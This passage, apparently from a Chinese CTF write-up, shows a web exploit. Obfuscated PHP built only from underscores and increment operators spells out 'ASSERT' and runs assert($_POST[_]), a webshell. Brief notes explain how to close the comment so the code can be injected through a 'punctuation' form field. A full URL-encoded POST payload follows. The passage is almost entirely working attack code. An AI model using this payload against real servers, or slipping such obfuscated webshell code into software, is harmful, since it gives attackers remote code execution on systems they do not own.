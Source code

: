 ```
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

punctuation最后面需要加个`/*`把后面的html注释掉

punctuation值：

```
*/);$_='';$_[+$_]++;$_=$_.'';$__=$_[+''];$_=$__;$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);/*
```

然后urlencode

整体的payload：

```
user=/*&pass=1&website=1&punctuation=%2a%2f%29%3b%24%5f%3d%27%27%3b%24%5f%5b%2b%24%5f%5d%2b%2b%3b%24%5f%3d%24%5f%2e%27%27%3b%24%5f%5f%3d%24%5f%5b%2b%27%27%5d%3b%24%5f%3d%24%5f%5f%3b%24%5f%5f%5f%3d%24%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%5f%5f%3d%27%5f%27%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%5f%3d%24%5f%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%2b%2b%3b%24%5f%5f%5f%5f%2e%3d%24%5f%5f%3b%24%5f%3d%24%24%5f%5f%5f%5f%3b%24%5f%5f%5f%28%24%5f%5b%5f%5d%29%3b%2f%2a
```
